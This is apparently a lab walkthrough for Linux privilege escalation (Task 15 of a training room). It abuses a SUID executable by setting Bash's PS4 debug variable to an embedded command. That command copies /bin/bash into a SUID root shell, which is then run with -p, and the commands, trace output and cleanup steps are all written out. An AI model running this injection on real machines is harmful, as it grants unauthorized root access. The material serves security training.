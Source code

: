 # Task 15 : SUID / SGID Executables - Abusing Shell Features (#2)
### Note: This will not work on Bash versions 4.4 and above.
When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.

Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```
output:
```
/usr/sbin/service apache2 start
basename /usr/sbin/service
VERSION='service ver. 0.91-ubuntu1'
basename /usr/sbin/service
USAGE='Usage: service < option > | --status-all | [ service_name [ command | --full-restart ] ]'
SERVICE=
ACTION=
SERVICEDIR=/etc/init.d
OPTIONS=
'[' 2 -eq 0 ']'
cd /
'[' 2 -gt 0 ']'
case "${1}" in
'[' -z '' -a 2 -eq 1 -a apache2 = --status-all ']'
'[' 2 -eq 2 -a start = --full-restart ']'
'[' -z '' ']'
SERVICE=apache2
shift
'[' 1 -gt 0 ']'
case "${1}" in
'[' -z apache2 -a 1 -eq 1 -a start = --status-all ']'
'[' 1 -eq 2 -a '' = --full-restart ']'
'[' -z apache2 ']'
'[' -z '' ']'
ACTION=start
shift
'[' 0 -gt 0 ']'
'[' -r /etc/init/apache2.conf ']'
'[' -x /etc/init.d/apache2 ']'
exec env -i LANG= PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin TERM=dumb /etc/init.d/apache2 start
Starting web server: apache2httpd (pid 1759) already running
.
```
Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:
```
/tmp/rootbash -p
```
Remember to remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!
```
rm /tmp/rootbash
exit
```
